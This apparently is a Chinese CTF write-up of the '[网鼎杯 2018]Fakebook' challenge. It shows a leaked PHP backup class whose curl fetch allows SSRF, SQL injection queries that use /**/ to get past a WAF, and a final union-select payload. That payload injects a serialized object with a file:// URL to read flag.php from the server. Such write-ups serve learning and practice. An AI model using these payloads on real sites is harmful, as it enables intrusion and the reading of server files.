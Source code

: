 # buu摸鱼日记（3）

## [网鼎杯 2018]Fakebook

说实话，看完了这个题目，我停止了思考

知识点过多，感觉需要花几天理一下



注册了一个账号，登进去，没思路了，也没看见什么公告板什么的（XSS）

不过，看了下wp，倒是把思路整理了出来了

（这是sql注入我真没想到）

首先先素质二连，拿起御剑/dirsearch ...工具先扫一遍

然后会发现robot.txt和几个php什么的(有的能直接扫到flag.php(我没扫出来))

以及一个非常关键的东西:user.php.bak

可以发现他是经过了序列化的

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
#非常明显，name age blog这些量是通过对象装的，
```

order by 测出来4个行，

union select了下，发现明显有waf 

用/**/代替空格

`-1/**/union/**/select/**/1,2,3,4`

2会有正常回显其他则会显示错误，且会报错（**Notice**:  Trying to get property of non-object in **/var/www/html/view.php** on line **56**）

爆出根目录位置以及验证了对象序列化

之后就爆字段爆表名（可能是因为我没怎么玩过后端，写起来老费劲了）

最后会发现会爆出一个反序列化对象（其实爆不爆无所谓）

按照上面的序列new一个对象，进行序列化导入。即可拿到flag

```php
payload:

?no=-1/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"test";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

--------

这个题目其实不难，就是个巨大的缝合怪。各个点都很简单（但就是没想到）。由于基础不扎实，感觉还是需要补充一下基础姿势

这里的点有：反序列化 sql 注入 以及工具的利用什么的

还是要打好基础